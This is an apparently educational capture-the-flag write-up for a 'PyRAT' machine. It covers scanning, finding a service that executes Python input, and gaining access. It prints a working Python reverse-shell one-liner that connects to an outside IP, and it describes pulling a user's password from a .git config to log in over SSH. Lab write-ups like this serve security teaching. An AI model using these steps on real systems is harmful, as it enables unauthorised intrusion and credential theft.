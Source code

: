 <img width="1841" height="326" alt="image" src="https://github.com/user-attachments/assets/286a4bdc-7fff-4156-8c5d-32585674e102" />


In “PyRAT”, our exploration began with an Nmap scan, revealing open ports 22 (SSH) and 8000 (HTTP-alt). Using curl and nc, we interacted with the HTTP-alt service. We exploited Python execution capabilities to gain initial access, achieving a shell on the system. Further investigation led us to a .git directory in /opt, containing configuration files disclosing credentials for a user. Employing a custom Python script for endpoint fuzzing, we identified an admin interface and successfully cracked the password using a threaded password fuzzer, consolidating our control over the system.


Step 1:  First we do Network Scanning

  nmap -sV -A IP


  From the nmap scan we can see there is port 8000 open with http/alt. Doing curl we get an answer from the server:

  curl -v [target ip]:8000

  <img width="1038" height="591" alt="image" src="https://github.com/user-attachments/assets/6c4a7dd2-821c-4611-adcb-3aa17470c0ab" />


  The server answers with: “Try a more basic connection”. The most basic connection we can establish is using nc so…

  nc [target ip] 8000

If we send just: “GET / HTTP/1.1” the server answers with:

Why do we get that our variable GET is not defined? It is possible that the server is executing Python code?

EXPLOITATION

If we send: print("Hello")

The server answers with:  Hello


Try a reverse shell instead. Send this to the server:

<img width="1881" height="121" alt="image" src="https://github.com/user-attachments/assets/ef29660f-42dd-402d-819c-9a7d1454c5a3" />

import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.67.93",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")


The connection hangs and in our nc listener:

<img width="646" height="291" alt="image" src="https://github.com/user-attachments/assets/fa35a7a1-c073-454d-a662-03a3a9514aea" />

So we have a shell on the machine called Pyrat as www-data.

Checking in “/opt” there is a “.git” folder owned by www-data. On the config file we can find the password for a user called think:

<img width="510" height="724" alt="image" src="https://github.com/user-attachments/assets/d46804a5-9101-491a-a8dc-f3b6c247b822" />

 I did ssh think@IP then enter password
